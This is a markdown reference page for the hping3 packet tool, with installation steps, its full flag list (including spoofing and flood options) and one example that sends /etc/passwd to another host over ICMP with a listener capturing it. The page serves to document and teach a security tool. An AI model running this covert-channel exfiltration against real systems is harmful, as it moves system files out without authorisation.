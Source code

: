 ```yaml
---
title : "Hping3"
# pre : ' '
description : "Send (almost) arbitrary TCP/IP packets to network hosts."
date : 2021-05-12T09:32:22+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Hping3

Send (almost) arbitrary TCP/IP packets to network hosts.

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn't only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

## Installation

```plain
sudo apt install hping3
```

## Usage

```plain
hping3 host [options]
```

## Flags

```plain
  -h  --help      show this help
  -v  --version   show version
  -c  --count     packet count
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood     sent packets as fast as possible. Don't show replies.
  -n  --numeric   numeric output
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
  -V  --verbose   verbose mode
  -D  --debug     debugging info
  -z  --bind      bind ctrl+z to ttl           (default to dst port)
  -Z  --unbind    unbind ctrl+z
      --beep      beep for every matching packet received
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
  -t  --ttl        ttl (default 64)
  -N  --id         id (default random)
  -W  --winid      use win* id byte ordering
  -r  --rel        relativize id field          (to estimate host traffic)
  -f  --frag       split packets in more frag.  (may pass weak acl)
  -x  --morefrag   set more fragments flag
  -y  --dontfrag   set don't fragment flag
  -g  --fragoff    set the fragment offset
  -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
  -o  --tos        type of service (default 0x00), try --tos help
  -G  --rroute     includes RECORD_ROUTE option and display the route buffer
  --lsrr           loose source routing and record route
  --ssrr           strict source routing and record route
  -H  --ipproto    set the IP protocol field, only in RAW IP mode
ICMP
  -C  --icmptype   icmp type (default echo request)
  -K  --icmpcode   icmp code (default 0)
      --force-icmp send all icmp types (default send only supported types)
      --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
      --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
      --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
      --icmp-help  display help for others icmp options
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
  -k  --keep       keep still source port
  -w  --win        winsize (default 64)
  -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
  -Q  --seqnum     shows only tcp sequence number
  -b  --badcksum   (try to) send packets with a bad IP checksum
                   many systems will fix the IP checksum sending the packet
                   so you'll get bad UDP/TCP checksum instead.
  -M  --setseq     set TCP sequence number
  -L  --setack     set TCP ack
  -F  --fin        set FIN flag
  -S  --syn        set SYN flag
  -R  --rst        set RST flag
  -P  --push       set PUSH flag
  -A  --ack        set ACK flag
  -U  --urg        set URG flag
  -X  --xmas       set X unused flag (0x40)
  -Y  --ymas       set Y unused flag (0x80)
  --tcpexitcode    use last tcp->th_flags as exit code
  --tcp-mss        enable the TCP MSS option with the given value
  --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
Common
  -d  --data       data size                    (default is 0)
  -E  --file       data from file
  -e  --sign       add 'signature'
  -j  --dump       dump packets in hex
  -J  --print      dump printable characters
  -B  --safe       enable 'safe' protocol
  -u  --end        tell you when --file reached EOF and prevent rewind
  -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
  --tr-stop        Exit when receive the first not ICMP in traceroute mode
  --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
  --tr-no-rtt      Don't calculate/show RTT information in traceroute mode
ARS packet description (new, unstable)
  --apd-send       Send the packet described with APD (see docs/APD.txt)
```

## Examples

### Send file via ICMP (ping)

```sudo hping3 -I [INTERFACE] [TARGET-IP] --[PROTOCOL] -d 100 --sign [SECRET] --file [FILE]```

```plain
$ sudo hping3 -I eth0 10.10.20.106 --icmp -d 100 --sign secret --file /etc/passwd
HPING 10.10.20.106 (lo 10.10.20.106): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
```

Listen on target machine.

```plain
$ sudo hping3 -I wlp4s0 --listen secret --icmp
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!
20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologi/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nolon
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nologin
---  hping statistic ---
0 packets transmitted, 0 packets received, 0% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

## URL List

* [Tools.kali.org - hping3](https://tools.kali.org/information-gathering/hping3)
* [Linux.die.net - hping3](https://linux.die.net/man/8/hping3)
* [iphelix.medium.com - Hping tips and tricks](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)
